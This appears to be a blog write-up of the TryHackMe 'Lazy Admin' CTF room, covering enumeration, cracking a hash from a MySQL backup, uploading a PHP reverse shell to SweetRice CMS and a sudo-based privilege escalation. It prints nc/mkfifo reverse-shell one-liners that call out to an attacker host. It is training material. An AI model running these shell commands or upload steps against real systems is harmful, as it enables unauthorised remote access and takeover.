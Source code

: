 ```yaml
---
layout: post
current: post
cover: 'assets/images/lazyadmin/cover.png'
navigation: True
title: "Lazy Admin Write Up"
date: 2021-05-05 00:00:00
tags: [tryhackme, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![cover](/assets/images/lazyadmin/cover.png)

### Overview

[lazyadmin](https://tryhackme.com/room/lazyadmin) is a fun easy rated CTF room on [TryHackMe](https://tryhackme.com). 

### Nmap

I deployed the machine and was given the target IP 10.10.86.223. I started a NMAP scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oA nmap/initial 10.10.86.223
Starting Nmap 7.80 ( https://nmap.org ) at 2021-05-05 16:22 BST
Nmap scan report for 10.10.86.223
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.99 seconds
```

2 Ports open:

- 22 - SSH - OpenSSH 7.2p2 Ubuntu
- 80 - HTTP - Apache web server version 2.4.18

I also ran a full port scan but no additional ports were found.

### Enumeration

Opening the webpage just provides a default apache page, I checked the source code and tried robots.txt but didn't find anything so ran a gobuster. Straight away I got a hit for '/content'.

```highlight
└──╼ $gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.86.223 -t 75 -o gobuster.log
===============================================================                                                                
Gobuster v3.0.1                                                                                                                
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                
===============================================================
[+] Url:            http://10.10.86.223
[+] Threads:        75
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/05/05 16:26:03 Starting gobuster
===============================================================
/content (Status: 301)
[SNIP]
```

Navigating to 'http://10.10.86.223/content' appears to be another default page but this time revealing the server is running SweetRice CMS. 

![webpage](/assets/images/lazyadmin/webpage.png)

I ran a gobuster in the background while clicking around. I didnt find anything of interest, however gobuster found a few directories to review.

```highlight
└──╼ $gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.86.223/content/ -t 75 -o gobuster-sweetrice.log
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.86.223/content/
[+] Threads:        75
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/05/05 16:33:33 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
===============================================================
2021/05/05 16:35:02 Finished
===============================================================
```

'http://10.10.86.223/content/as' took me to a login page, I tried some default credentials but couldnt log in. Looking around the folders '/inc/mysql_backup/' looks interesting and in the folder is a single backup file.

![mysql](/assets/images/lazyadmin/mysql.png)

The file is readable with cat, looking through I found a user account and password hash. Using the tool 'hash-identifier' the hash is md5. Because its md5 I used [crackstation](https://crackstation.net) rather than hashcat and got a hit.

Using the credentials from the mysql backup file and the cracked password I was able to login to 'http://10.10.86.223/content/as'

![sweetrice](/assets/images/lazyadmin/sweetrice.png)

### Initial Access

Once logged in, I could clearly see the SweetRice version of 1.5.1, googling 'sweetrice 1.5.1 exploit' I found an [exploit](https://www.exploit-db.com/exploits/40716) using the upload feature. The exploit is just a simple python script doing a POST call to '/as/?type=media_center&mode=upload'.

Rather than use the exploit code I navigated to the 'Media Center' part of the website so I could upload a file.

I copied a php reverse shell from /usr/share/webshells/php from my ParrotOS and renamed to shell.php and updated the IP and port details.

![upload](/assets/images/lazyadmin/upload.png)

However, shell.php didn't work, I didn't get an error it just didn't upload, I renamed to shell.php5 and tried to upload again and it worked. I clicked the uploaded file and got a shell.


```highlight
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [SNIP] from (UNKNOWN) [10.10.86.223] 38212
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:52:05 up 33 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

### Priv Esc

The first thing I checked was sudo -l and found the www-data was able to run a perl script as sudo with no password. 

```highlight
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
```

I checked the script permissions and I was not able to edit the script however I could read it.

```highlight
$ ls -lah /home/itguy/backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl
```

I stabilised my shell using python and started reviewing the script. It looks like the script calls another script so I again checked the permissions and I can edit this file.

```highlight
www-data@THM-Chal:/home/itguy$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ ls -lah /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

The /etc/copy.sh script has a nc reverse shell payload, I replaced the command with my own IP and port details  and ran the perl script as sudo.

```highlight
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 5555 >/tmp/f" > /etc/copy.sh
www-data@THM-Chal:/home/itguy$
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```

Root shell!

```highlight
└──╼ $nc -nvlp 5555
listening on [any] 5555 ...
connect to [SNIP] from (UNKNOWN) [10.10.86.223] 49536
# id
uid=0(root) gid=0(root) groups=0(root)
```

Thanks for reading!

